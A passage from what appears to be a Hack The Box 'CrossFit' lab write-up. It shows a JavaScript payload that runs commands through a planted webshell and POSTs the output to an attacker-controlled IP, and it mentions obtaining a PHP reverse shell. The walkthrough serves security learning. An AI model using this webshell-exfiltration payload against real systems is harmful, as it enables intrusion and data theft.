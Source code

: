 Afterwards, I can execute commands via the webshell, and return that response to my HTTP server.

```js
fetch('http://development-test.crossfit.htb/cmd.php?cmd=id', {
  credentials: 'include'
})
  .then(resp => resp.text())
  .then(html => { 
    fetch('http://10.10.14.13:8000', {
      method: 'POST',
      credentials: 'include',
      body: html,
    });
  })
```

![](../../../.gitbook/assets/htb-crossfit-image-11.png)

Finally. The `cmd.php` shell is cleared pretty fast, but getting a reverse shell from here is trivial and fast. I had to use a PHP reverse shell in the end for some reason.

![](../../../.gitbook/assets/htb-crossfit-image-12.png)

## Privilege Escalation

### Ansible Playbooks -> User Password
